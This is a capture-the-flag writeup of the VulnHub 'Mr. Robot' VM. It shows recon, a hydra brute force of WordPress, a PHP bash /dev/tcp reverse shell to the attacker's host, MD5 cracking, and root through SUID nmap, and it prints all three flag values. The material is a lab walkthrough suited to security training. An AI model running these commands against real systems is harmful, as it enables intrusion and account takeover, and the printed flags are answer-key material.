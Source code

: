 # Mr. Robot VulnHub VM Writeup 🕵️‍♂️

> **Author:** Your Name • **Date:** 2025-06-30  
> **VM:** `Mr. Robot` (Beginner–Intermediate)

---

## Description

> This VM is based on the show *Mr. Robot*. There are **three keys** hidden in different locations, each progressively more challenging to find. No advanced exploitation or reverse engineering is required.

---

## Table of Contents

1. [Reconnaissance](#reconnaissance-️)  
2. [Directory Enumeration](#directory-enumeration-️)  
3. [Finding Key #1 🔑](#finding-key-1-️)  
4. [WordPress Enumeration](#wordpress-enumeration-️)  
5. [Brute‑forcing Credentials](#brute‑forcing-credentials-️)  
6. [Obtaining a Reverse Shell ⚙️](#obtaining-a-reverse-shell-️)  
7. [Privilege Escalation & Key #2 🔑](#privilege-escalation--key-2-️)  
8. [Root Shell via `nmap`](#root-shell-via-nmap-️)  
9. [Retrieving Key #3 🔑](#retrieving-key-3-️)  
10. [Conclusion](#conclusion-️)  

---

## Reconnaissance 📝

```bash
$ nmap -sV -oN nmap_initial.txt 10.0.2.5
Starting Nmap 7.95 at 2025-06-30 09:44 UTC
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  open   http    Apache httpd
443/tcp open   ssl/http Apache httpd
````

> *Note: SSH is closed, so initial access will be via HTTP (ports 80/443).*

---

## Directory Enumeration 🔍

```bash
$ gobuster dir \
    -u http://10.0.2.5 \
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    -t 100 -x php,html,txt,json,zip -e -r
```

Key findings:

* `/robots.txt` → reveals `fsocity.dic` & `key-1-of-3.txt`
* WordPress directories and login pages present

---

## Finding Key #1 🔑

1. **Fetch `robots.txt`:**

   ```bash
   $ curl http://10.0.2.5/robots.txt
   User-agent: *
   fsocity.dic
   key-1-of-3.txt
   ```
2. **Download the key:**

   ```bash
   $ curl http://10.0.2.5/key-1-of-3.txt -o key-1-of-3.txt
   $ cat key-1-of-3.txt
   073403c8a58a1f80d943455fb30724b9
   ```

> *Key #1 obtained: `073403c8a58a1f80d943455fb30724b9`*

---

## WordPress Enumeration 🐘

```bash
$ wpscan --url http://10.0.2.5 \
    --enumerate u,vp,vt,cb,dbe \
    --disable-tls-checks --no-update
```

* **WP Version:** 4.3.1 (old/insecure)
* **Theme:** `twentyfifteen` (outdated)
* **XML-RPC** & **WP-Cron** enabled

> *No vulnerable plugins or leaks yet, but weak credentials may be possible via brute force.*

---

## Brute‑forcing Credentials 🔑

Using the `fsocity.dic` wordlist against `/wp-login.php`:

```bash
$ hydra -l elliot -P fsocity.dic.uniq \
    10.0.2.5 http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=ERROR"
```

> **Success:**
> `elliot:ER28-0652`

> *👀 I guessed elliot as the username hahaha*

---

## Obtaining a Reverse Shell ⚙️

1. **Edit `header.php`** via WP Theme Editor:

   ```php
   <?php
   exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.15/4444 0>&1'");
   ?>
   ```

2. **Activate & visit** `http://10.0.2.5/nothing` to trigger the payload.

3. **Listener:**

   ```bash
   $ nc -lnvp 4444
   ```

```text
connect to [10.0.2.15] from 10.0.2.5
bash: no job control in this shell
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$
```

> *We’re now the `daemon` user.*

---

## Privilege Escalation & Key #2 🛡️

1. **Explore home directory:**

   ```bash
   daemon@...$ cd /home/robot
   daemon@...$ ls
   key-2-of-3.txt  password.raw-md5
   ```

2. **View MD5 hash & crack:**

   ```bash
   $ cat password.raw-md5
   robot:c3fcd3d76192e4007dfb496cca67e13b
   ```

   * *Cracked via CrackStation →* `abcdefghijklmnopqrstuvwxyz`

3. **Spawn TTY & `su` to `robot`:**

   ```bash
   $ python3 -c 'import pty; pty.spawn("/bin/bash")'
   $ su robot
   Password: abcdefghijklmnopqrstuvwxyz
   $ cat key-2-of-3.txt
   822c73956184f694993bede3eb39f959
   ```

> *Key #2 obtained: `822c73956184f694993bede3eb39f959`*

---

## Root Shell via `nmap` 🚀

1. **Check SUID binaries:**

   ```bash
   $ find / -type f -perm -4000 -user root 2>/dev/null
   /usr/local/bin/nmap
   ```

2. **Launch interactive `nmap`:**

   ```bash
   $ nmap --interactive
   ```

3. **Drop to shell:**

   ```text
   nmap> !sh
   # whoami
   root
   # cd /root
   # ls
   key-3-of-3.txt
   ```

> *Root shell achieved!*

---

## Retrieving Key #3 🔑

```bash
# cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

> **Key #3 obtained:** `04787ddef27c3dee1ee161b21670b4e4`

---

## Conclusion 🎯

* **Keys Found:**

  1. `073403c8a58a1f80d943455fb30724b9`
  2. `822c73956184f694993bede3eb39f959`
  3. `04787ddef27c3dee1ee161b21670b4e4`

* **Takeaways:**

  * Always check `robots.txt` for hidden endpoints.
  * Outdated WordPress core/themes can lead to low-hanging exploits.
  * Clever use of SUID binaries (e.g., `nmap`) can give you root.

> Have a good day!

